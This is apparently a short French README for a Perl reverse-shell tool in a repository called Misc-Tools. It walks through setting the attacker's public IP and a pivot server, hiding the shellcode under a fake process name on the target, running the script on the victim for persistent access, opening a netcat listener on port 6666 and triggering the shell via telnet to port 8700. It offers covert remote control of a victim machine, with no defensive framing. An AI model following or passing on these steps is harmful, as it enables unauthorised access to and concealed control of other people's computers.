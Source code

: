 # Misc-Tools

1) Modifier la valeur des variables suivantes:                                                                                    
  - $publicip --> contient l'ip publique de l'attaquant, à savoir celle du serveur rebond.
  - $fakeprocess --> n'importe quel processus identifié sur la cible afin de camoufler le shellcode.
  - $reverse_shell_port (6666) --> le port cible sur lequel se connecter pour piloter le shell, l'ouvrir ou le fermer.
  - $port (8700) --> Le port de la machine victime, sur lequel se connecter pour lançer l'activation du shellcode via la commande "shell".                                                                        
2) Le script ./ReverseShell.pl doit être exécuté sur le la cible afin de pouvoir maintenir l'accès sur la machine distante.       
3) Exécuter le listener sur votre machine: 'nc -l -p 6666' pour écouter la future connexion de la machine cible.              
4) Lancer la commande d'activation du revershell distant: 'telnet $ip_publique_machine $port' (à remplacer par le port défini dans le script --> 8700 dans notre cas).


Enjoy! :)
